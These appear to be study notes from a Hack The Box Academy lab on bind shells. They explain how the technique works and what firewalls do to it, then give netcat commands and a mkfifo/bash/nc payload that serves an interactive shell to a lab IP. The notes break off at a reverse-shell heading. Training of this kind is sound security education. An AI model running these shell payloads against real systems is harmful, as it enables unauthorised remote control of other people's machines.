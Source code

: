 In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

![](https://github.com/nolancarougepro/Hack-The-Box-Academy/blob/main/Tier%201/Medium/Shells%20%2526%20Payloads/Images/bindshell.webp)

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider :

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. To do this, we will be using `netcat` (`nc`) on the client and server.

```shell
Target@server:~$ nc -lvnp 7777
```

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

```shell
NolanCarougeHTB@htb[/htb]$ nc -nv 10.129.41.200 7777
```

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

```shell
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

```shell
NolanCarougeHTB@htb[/htb]$ nc -nv 10.129.41.200 7777
```

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.

## Reverse Shells : 

